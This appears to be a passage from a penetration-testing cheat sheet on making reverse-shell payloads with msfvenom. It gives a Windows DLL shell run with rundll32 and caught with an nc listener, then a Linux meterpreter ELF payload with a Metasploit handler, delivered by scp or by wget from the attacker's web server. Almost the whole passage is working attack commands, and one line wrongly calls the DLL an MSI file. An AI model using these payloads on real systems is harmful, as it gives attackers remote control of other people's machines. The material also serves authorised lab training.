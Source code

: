 
#### Dynamic-link library Payload (DLL):

Transfer the malicious on the target system and execute it.

```
msfvenom -p windows/shell_reverse_tcp lhost=192.168.10.193 lport=4433 -f dll > /var/www/html/shell.dll
```


_Use the command `rundll32` to run the MSI file on Target host:_

```
rundll32.exe shell.dll,0
```



_Now from the kali Terminal let us type the command:_

```
nc -lvp 4433
```


#### For Linux: [worked]

The `elf` part specifies the output format of the payload, and "ELF" refers to the **Executable and Linkable Format**, which is a standard file format for executable files, shared libraries, and core dumps in Linux systems. It is the native binary format used on Linux and Unix-like operating systems.


```
msfconsole
```


```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.10.193 lport=6666 -f elf > /var/www/html/shell_file
```


```
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp

set LHOST 192.168.10.193
set lport 6666

show options
```


```
scp shell_file root@192.168.10.192:/tmp

or,

wget http://192.168.10.193/shell_file
```
